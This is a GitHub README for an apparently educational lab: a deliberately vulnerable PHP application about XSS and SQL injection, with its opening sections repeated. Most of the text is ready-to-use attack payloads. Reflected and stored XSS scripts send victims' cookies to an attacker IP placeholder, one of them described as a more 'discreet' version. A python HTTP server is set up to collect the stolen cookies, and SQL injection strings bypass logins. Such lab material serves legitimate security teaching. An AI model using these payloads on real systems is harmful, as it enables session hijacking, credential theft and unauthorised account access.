 # Vulnerable PHP Application - XSS and SQL Injection

##Description

This repository gathers various tools and techniques utilized during a system security internship. It serves as an educational resource to demonstrate common web security vulnerabilities, including Cross-Site Scripting (XSS) and SQL Injection (SQLi). The repository provides a vulnerable PHP application where users can test and understand how these exploits work in a controlled environment.

##Features

Hands-on demonstration of web vulnerabilities

Dockerized setup for easy deployment
# Vulnerable PHP Application - XSS and SQL Injection

## Description

This repository gathers various tools and techniques utilized during a system security internship. It serves as an educational resource to demonstrate common web security vulnerabilities, including **Cross-Site Scripting (XSS)** and **SQL Injection (SQLi)**. The repository provides a vulnerable PHP application where users can test and understand how these exploits work in a controlled environment.

## Features

- Hands-on demonstration of web vulnerabilities
- Dockerized setup for easy deployment
- Practical attack payloads for testing security weaknesses

## Analyzed Vulnerabilities

- **XSS (Cross-Site Scripting)**
  - Reflected
  - Stored
- **SQL Injection**

## Start the Vulnerable Lab

1. Install Docker for your operating system.
2. Clone or download this repository.
3. Start Docker.
4. Open a command prompt inside the project root directory and execute the following command:
   ```sh
   docker compose up --build
   ```

## Start the Attacker Web Server

To collect stolen cookies, a simple HTTP server is used. Launch it using:
```sh
python -m http.server 8000
```

## XSS Attack Payloads

### Reflected Cross-Site Scripting (XSS)
This script forces the victim’s browser to send their cookies to an attacker-controlled server:
```html
<script>window.location.replace("http://<attackerIP>:8000/a.html?c=" + document.cookie);</script>
```

### Stored Cross-Site Scripting (XSS)
This method, although noisy, continuously triggers requests by injecting a malicious image tag:
```html
<img src="invalid" onerror=this.src='http://<attackerIP>:8000/' + document.cookie; />
```

For a more discreet approach, use this:
```html
<script>i=document.createElement('img');i.src='http://<attackerIP>:8000/'+document.cookie;document.body.appendChild(i)</script>
```

### Basic Alert Test
```html
<script>alert(document.cookie)</script>
```

## SQLi Payloads

### Authentication Bypass
To gain access to the first account saved in the database:
```sql
' OR 1=1 --
```

To gain access to an account by knowing the username:
```sql
[username]' OR 1=1 --
```

### ID-Based Authentication Bypass
Bypassing authentication using an ID-based query:
```sql
id = 100 OR 1=1
```


